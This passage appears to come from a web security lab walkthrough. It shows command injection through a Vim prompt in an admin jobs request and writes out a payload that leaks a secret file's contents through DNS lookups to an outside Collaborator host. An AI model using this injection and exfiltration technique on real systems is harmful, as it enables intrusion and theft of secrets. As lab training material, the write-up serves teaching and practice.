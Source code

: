 This payload will use Vim as an interactive prompt and execute the command passed in `input` (the `\n` is neccessary because in Vim the user needs to hit `Enter` to run the provided command). Now send the `POST /admin/jobs HTTP/2` request to execute the shell command. Notice in the `Collaborator` tab, there are DNS requests to:

    secret.hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com

This indicates that there is a file named `secret` in `/home/carlos`. Now change the shell command to:

    :! ls $(/home/carlos/secret).hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com \n

Resend the `POST /admin/jobs HTTP/2` request to execute the shell command. Notice in the `Collaborator` tab, there are DNS requests to:

    W0h4Feu25FyPUB4rD59u8VUlaHZKZ2sm.hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com

This gives us the content of `secret`:

    W0h4Feu25FyPUB4rD59u8VUlaHZKZ2sm
